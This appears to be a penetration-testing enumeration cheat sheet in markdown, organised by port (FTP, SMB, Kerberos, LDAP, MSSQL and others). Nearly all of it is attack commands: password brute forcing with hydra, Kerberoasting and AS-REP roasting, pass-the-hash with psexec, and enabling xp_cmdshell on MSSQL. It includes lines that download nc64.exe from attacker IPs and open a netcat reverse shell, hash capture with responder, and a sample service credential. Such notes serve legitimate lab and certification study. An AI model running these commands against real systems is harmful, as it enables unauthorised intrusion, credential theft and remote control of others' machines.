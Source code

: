 ## Enumeration Checklist

# set your variables

`target=`<br>
`user=`<br>
`pass=`<br>
`ip=`<br>
`domain=`<br>

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

- common creds patterns<br>
admin/admin<br>
root/root<br>
password/password<br>
username/username<br>


# 53 DNS

`dig @$ip version.bind CHAOS TXT`<br>
`dig axfr @$ip $domain`<br>
`dnsenum $domain`<br>

# 135 RCP

`rpcclient -U '' -N $ip`<br>
`rpcclient -U '$user%$pass' $ip` <br>

- `> enumdomusers      #check the users on the DC`<br>
- `> queryuser <username>  #query the details of the user`<br>
- `> querydispinfo`<br>

`nmblookup -A $ip`<br>

# 445 SMB

**Without Pass**<br>
`enum4linux -a $ip`<br>
`impacket-lookupsid $domain/$user@$domain -no-pass`<br>
`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`<br>
`smbclient -N -L //[ip]`<br>
`smbclient //[ip]/[share] -N   #Enumerate Files`<br>


**With Pass**
`lookupsid.py  $domain$user:$pass@$domain`<br>
`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2<br>
> [!IMPORTANT]
> This oneliner will create a file with all the domain users

`psexec.py -hashes  :<ntlm hash>    $user@$ip`<br>
`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`<br>
`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`<br>
`netexec smb [host/ip] -u [user] -p [pass] --shares`<br>
`netexec smb [host/ip] -u guest -p '' --shares`<br>
`smbclient //[ip]/[share] -U [username] [password]`<br>
`netexec smb -u [user] -p [pass] -M spider_plus`<br>
`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`<br>
`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`<br>


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`<br>
`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`<br>
`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`<br>
`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`<br>
`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`<br>
`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`<br>


# 389 LDAP

**Without Pass**<br>
`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam"`<br>
`ldapsearch -x -H ldap://$ip -s base namingcontexts`<br>
`impacket-lookupsid '$domain/guest'@$domain -no-pass`<br>

**With Pass**<br>
`lookupsid.py  $domain/$user:$pass@$domain`<br>
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`<br>

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`<br>
`neo4j console'<br>
> [!IMPORTANT]<br>
> config file; /usr/share/neo4j/conf<br>
`./Bloodhound  --no-sandbox`<br>


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`  #Windows login<br>
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`<br>

`SELECT @@version   #Current MSSQL Version`<br>
`SELECT DB_NAME()   #Current Database`<br>
`SELECT name FROM sys.databases;  #show DBs`<br>	
`enum_db            #show DBs`<br>
`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`<br>

**cmd command**<br>
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami /priv'`<br>


**powershell**<br>
`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`<br>
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`<br>
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`<br>


**capture**<br>
`xp_dirtree \\192.168.1.210\shared`<br>
`responder -I tun01`
> [!IMPORTANT]
> When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

**impersonate**<br>
`enum_impersonate'<br>  > impersonate`<br>
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`<br>
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`<br>


**MSSQL Cheetsheet**<br>
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
